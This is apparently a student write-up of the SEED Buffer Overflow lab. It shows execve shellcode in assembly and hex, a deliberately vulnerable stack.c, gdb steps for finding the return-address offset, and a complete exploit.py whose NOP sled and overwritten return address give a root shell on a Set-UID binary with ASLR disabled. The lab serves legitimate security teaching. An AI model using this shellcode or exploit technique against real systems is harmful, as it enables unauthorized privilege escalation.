

# Seedlab Week #5 (Buffer Overflow Attack Lab, Set-UID Version)


# Question 1

### Initial setup

Before starting the lab, we disabled all countermeasures on Ubuntu:

* `sudo sysctl -w kernel.randomize_va_space=0` to disable address space randomization (otherwise, we would need to guess the exact addresses).
* `sudo ln -sf /bin/zsh /bin/sh` as in previous labs, we needed to run this to enable programs executed in a Set-UID process. 

### Task 1: Getting Familiar with Shellcode

#### Step 1 

We learned from this step that *shellcode* is a piece of assembly code that launches a shell (it cannot be used as a compiled program from C, it must be written in assembly).

#### Step 2: 32-bit Shellcode

Here is an example of 32-bit shellcode that invokes `execve("/bin/sh")`. Basically, it will construct all three arguments: `"/bin//sh"` as the executable filepath, `argv` as the command-line arguments array, with first element `"/bin//sh"` and `0` (or `NULL`) as the second, and `0` (or `NULL`) as the environment variables array. This shellcode works for executables compiled for 32-bit computer architectures.

```asm
; Store the command on stack
xor eax, eax
push eax
push "//sh"     ; need 4 chars to set 32-bit, and // is same as /
push "/bin"
mov ebx, esp    ; ebx --> "/bin//sh": execve()'s 1st argument

; Construct the argument array argv[]
push eax        ; argv[1] = 0
push ebx        ; argv[0] --> "/bin//sh"
mov ecx, esp    ; ecx --> argv[]: execve()'s 2nd argument

; For environment variable
xor edx, edx    ; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor eax, eax    
mov al, 0x0b    ; execve()'s system call number
int 0x80
```

#### Step 3: 64-Bit Shellcode

This code does the same as the previous, but for 64-bit programs.

```asm
xor rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov rax, '/bin//sh' ; the command we want to run
push rax            
mov rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument
push rdx            ; argv[1] = 0
push rdi            ; argv[0] --> "/bin//sh"
mov rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor rax, rax
mov al, 0x3b        ; execve()'s system call number
syscall
```

#### Step 4: Invoking the Shellcode

In this task, we were provided with the code file called `shellcode.c`. This file already contained both shellcodes for both 32-bit or 64-bit executables, using the most adequate according to the compilation options. Having the shellcode as a string means that it can be inserted and manipulated as text.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;

int main(int argc, char **argv)
{
    char code[500];
    strcpy(code, shellcode);    // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                     // Invoke the shellcode from the stack
    return 1;
}
```

After compilation and running this, we can observe that it launches a shell.

<p align="center" justify="center">
  
</p>

In the experiment, if we set the program as SetUID, it will open a shell as `root`.

<p align="center" justify="center">
  
</p>

### Task 2: Understanding the Vulnerable Program

We were provided with code `stack.c`, that has a buffer overflow vulnerability, when we pass more than 100 bytes from `badfile` to the array `buffer` in `bof()`, since it has size `BUFSIZE`. 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won't be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

To compile the program, we used the provided `Makefile`, which specifies the flags `-fno-stack-protector` and `-z execstack`, to disable stack smashing detection and making the stack data executable during compilation. It also executes the needed commands to set the program to `Set-UID` and `admin` as the owner.
As per the instructions in Moodle, we set L1 to 108 (100 + 8 * 1 = 108, since our group number is 1). 

<p align="center" justify="center">
  
</p>

### Task 3: Launching Attack on 32-bit Program

For this task, we had to edit the file `exploit.py`, run that code to produce a badfile and run the `stack-L1` executable on that file, creating a buffer overflow that would execute a shellcode.
The overall idea would be to read the contents of the file, which causes a buffer overflow that would corrupt other memory regions (including the return address of the `bof` function). By writing shellcode to the memory and making the code return to that region, we would be able to execute the shellcode.  
By analyzing the python file, we can see that there are 4 variables that can be changed, as depicted on the table below:

|   Variable    | Meaning                                                                                                                                                                             |
| :-----------: | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **shellcode** | String of code to be used as shellcode, these would correspond to the Assembly instructions that can open a shell program. Ideally, we would like the program to execute this code. |
|   **start**   | Position where the shellcode will be placed. It determines the offset from the beginning of the buffer to where the shellcode starts.                                               |
|    **ret**    | Memory address to where we would like to return after the `bof` function execution.                                                                                                 |
|  **offset**   | Memory address offset between the start of the buffer and the position that stores the return address of the function.                                                              |

To start, it is easier to test the exploit in the `stack-L1-dbg` file and execute the exploit inside the gdb. The following list will contain the steps to fill each of the variables needed for the exploit.

1. For the **shellcode** we can just paste the one showed above for 32-bit.
2. To find the correct offset, we would need to use gdb to analyze the memory addresses of the program
    * We started by launching GDB with `gdb $PWD/stack-L1-dbg` and setting a breakpoint at the bof function using `b bof`. Then, run the program (`run`) and step into the function (`next`).
    * Thinking already on applying the exploit on the primary executable, since the memory addresses will not be the same, we have two alternatives:
      - We can fill multiple spaces with the ret address needed, therefore increasing the chances to execute the exploit
      - We can change the execution inside gdb to make sure everything the stack mimics the program execution outside of it.
      To make the exploit work with both the debug and non-debug version, we used the latter one. This way, we executed the following commands in `gdb`:

      ```bash
      $ <PWD>/stack-L1-dbg # this is how we are going to execute the command

      $ gdb <PWD>/stack-L1-dbg 
      # at the start of the gdb program, we need to set/unset these variables
      (gdb) set env _=<PWD>/stack-L1-dbg
      (gdb) unset env LINES
      (gdb) unset env COLUMNS
      ```

    * First, we need to get the address of the `$ebp` register (`p $ebp`), which contains `0xffffcaf8`.
    * Then, we find the memory address of the buffer which was just defined (`p &buffer`).  
    * By subtracting both of them, we are getting the offset corresponding to the function arguments and locally defined variables. In this case, it equals 116, so, the address in which we want to write is the one right after that, therefore, the offset is 116 + 4 (because of 32-bit programs using 4 byte-long addresses) = **120**.

<p align="center" justify="center">
  
</p>

  > Note: the 116 interval can also be explained by the 8 space address for the argument of the function and the following 108 for the buffer just created.
3. The start can be placed anywhere in the buffer, as long as it does not overwrite other information essential to execution, like the return address. In this case, we chose to place the shellcode at the end of the buffer, to take advantage of filling the rest of the buffer with NOP's (this makes the solution more flexible to address variations, which will be useful for exploiting the non-debug program). 
4. Finally, the ret value should be set to an address below (which will point to the NOP's, eventually skipping and reaching the desired address) or equal to the address where the shellcode starts, as long as it's above the address pointed by `$ebp`. Since there may be some more stack data after `$ebp`, we set it to a value much higher than `$ebp` (but still before the shellcode address).

So the final version of `exploit.py` would be:
```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ebp    = 0xffffcaf8
ret    = ebp + 100    # Change this number 
offset = 120          # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

After running this code with `python3 exploit.py`, the badfile will be generated and the exploit should be working if we execute the debug program. Additionaly, because of the considerations we took regarding the addresses, our exploit ends up being flexible enough to be applied successfully on the original program, granting a shell with root privileges, as shown below:

<p align="center" justify="center">
  
</p>

# Question 2

After generating the badfile and executing the attack, we can use the gdb tool to analyze the memory region affected.

* Firstly, we started GDB using the command `gdb $PWD/stack-L1-dbg`
* Secondly, we normalize the environment variables using the `set` and `unset` commands.
* Then, a breakpoint was set at the line with return statement of function `bof()`, where the buffer overflow occurred, using the command `b 22`.
* Finally, we execute the program by typing `run`.

<p align="center" justify="center">
  
</p>

* Finaly, by entering `x/517c &buffer` we see contents of the buffer:

<p align="center" justify="center">
  
  
</p>

The above images show the relevant bytes of the buffer addresses in memory. We can conclude 3 different things that match what we expected from the previous tasks:

- The memory region is **filled with `nop` (0x90)**. More specifically, `nop` go through the "ideal" buffer limit and overflow into other regions of memory, corrupting the data that was there.
- Highlighted with **red**, we can see the **initial buffer addresses contain the shellcode** which we injected at the end of the buffer. These are the instructions that will be executed after we return from the function.
- Highlighted in **blue**, we can see the **return address which was overwritten with the buffer overflow**, replacing the return address, in order to return to the desired memory location. In this case, it points to 100 bytes after `$ebp`, making it so that the shellcode is the next piece of code to be executed.

